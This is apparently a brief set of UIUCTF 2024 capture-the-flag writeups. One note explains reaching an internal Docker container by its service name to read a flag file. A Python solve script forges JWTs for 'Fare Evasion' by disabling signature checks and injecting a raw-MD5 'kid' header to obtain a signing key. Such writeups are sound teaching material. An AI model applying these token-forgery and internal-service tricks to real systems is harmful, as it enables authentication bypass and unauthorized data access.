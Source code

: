# UIUCTF writeups


# Log action:

https://siunam321.github.io/ctf/UIUCTF-2024/Web/Log-Action/

(HTML page also saves just incase site goes down)

Imp points:

If you have a docker service with a particuar name then putting that name in the host field of a url will resolve to that continer. i.e.

- <b> `docker <container-name> gets auto DNS mapped as http://<container-name>/` </b>
	So if a backend service is mounted like such: 
	
	![backend](backend.png)
	
	we can see that the flag file (flag.txt) is at the back-end service and mounted the flag file from ./backend/flag.txt to /usr/share/nginx/html/flag.txt. 
	That being said, if we can somehow reach to the internal Nginx, we could get the flag at http://<back-end_IP>/flag.txt.
	This is because the default Nginx webroot directory is at /usr/share/nginx/html/.
	We can also get at http://backend/flag.txt because	the name of the service is the docker-compose if backend.
# Fare Evasion

Solve script:
```
import requests
import re
import jwt

url = "https://fare-evasion.chal.uiuc.tf/"

response = requests.get(url)
set_cookie = response.headers.get("Set-Cookie")
access_token = re.search(r'access_token=(.*?);', set_cookie).group(1)
decoded_token = jwt.decode(access_token, algorithms=["HS256"], options={"verify_signature": False})
decoded_token['type'] = 'conductor'

# sql inject with raw md5 hash
secret = "a_boring_passenger_signing_key_?"
encoded_token = jwt.encode(decoded_token, secret, algorithm="HS256", headers={"kid": "129581926211651571912466741651878684928"})
headers = {"Cookie": f"access_token={encoded_token}"}
response = requests.post(url + "pay", headers=headers)
msg = response.json()['message']
print(msg)
conductor_key = re.search(r'secret: (.+)\n', msg).group(1)
# "conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e"
encoded_token = jwt.encode(decoded_token, conductor_key, algorithm="HS256", headers={"kid": "conductor_wkey"})
headers = {
    "Cookie": f"access_token={encoded_token}"
}
response = requests.post(url + "pay", headers=headers)
msg = response.json()['message']
print(msg)
```

